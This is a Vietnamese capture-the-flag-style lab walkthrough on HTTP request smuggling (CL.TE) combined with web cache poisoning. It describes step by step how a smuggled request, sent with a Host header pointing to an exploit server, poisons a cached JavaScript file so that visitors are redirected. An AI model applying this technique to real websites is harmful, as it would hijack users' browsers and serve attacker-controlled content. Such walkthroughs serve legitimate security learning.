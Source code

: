 ## Exploiting HTTP request smuggling to perform web cache poisoning

1. Được biết FE server ở đây không xử lý chunked encoding -> CL.TE smuggling.

2. Trong chức năng next post trả về một redirect response và nhận thấy `Host` header không có cơ chế xác thực origin. Khi thay giá trị trường này bằng host bất kỳ thì nó sẽ redirect đến host đó. 

3. Craft một smuggling request 

![image](https://user-images.githubusercontent.com/80744099/227866269-9aa4d44b-ac26-42ce-bcc8-cd96b4d25079.png)

4. Khi gửi smuggling request này lần 1 sẽ pass FE server dễ dàng và nhận được response bình thường. Tuy nhiên khi requets được chuyển đến BE server sau khi đọc xong giá trị 0, BE hiểu là phần body của request đã hết và phần còn lại của request sẽ được cắt và gắn vào request sau.

5. Craft trang exploit server:

![image](https://user-images.githubusercontent.com/80744099/227877718-b4469fab-8d79-47a8-9eaf-affc81d9ecd0.png)

6. Trong các request trong HTTP history, nhận thấy request `GET /resources/js/tracking.js` sử dụng web cache để lưu response.

![image](https://user-images.githubusercontent.com/80744099/227875755-5ea0e653-3563-4690-8662-7ef179119913.png)

7. Như vậy ta có thể khai thác http smuggling request kết hợp webcache bằng cách: sau khi gửi 1 lần smuggling request thì gửi request `GET /resources/js/tracking.js` do phần còn lại trong smuggling request sẽ làm request `GET /resources/js/tracking.js` có dạng:

```
GET /post/next?postId=9 HTTP/1.1
Host: exploit-0a7d00880426fc6ec06a6c8d015100e0.exploit-server.net/
Content-Length: 10

x=yGET /re
```
![image](https://user-images.githubusercontent.com/80744099/227878737-687daf28-7562-432c-a81c-ec795c20f64c.png)

8. Và nó sẽ được lưu trong cache trong vòng 30s. Cứ khi nào có một người dùng access vào request `GET /resources/js/tracking.js` thì nó sẽ redirect đến trang exploit và hiện alert.
